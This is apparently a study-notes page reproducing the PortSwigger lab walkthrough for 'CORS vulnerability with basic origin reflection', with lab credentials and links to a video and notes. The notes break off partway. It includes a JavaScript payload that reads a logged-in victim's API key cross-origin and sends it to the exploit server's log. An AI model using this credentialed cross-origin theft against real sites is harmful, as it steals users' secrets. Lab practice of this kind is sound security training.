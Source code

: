 CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

Rana khalil: 
Lab video:https://www.youtube.com/watch?v=XTFDst3TjMM&ab_channel=RanaKhalil
Lab solution:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/notes.txt

```
Lab #1 - CORS vulnerability with basic origin reflection

Target Goal - exploit the CORS misconfiguration to retrieve the administrator's API key

Creds - wiener:peter

Analysis:

Testing for CORS misconfigurations:
1. change the origin to an arbitrary value / True
2.
```

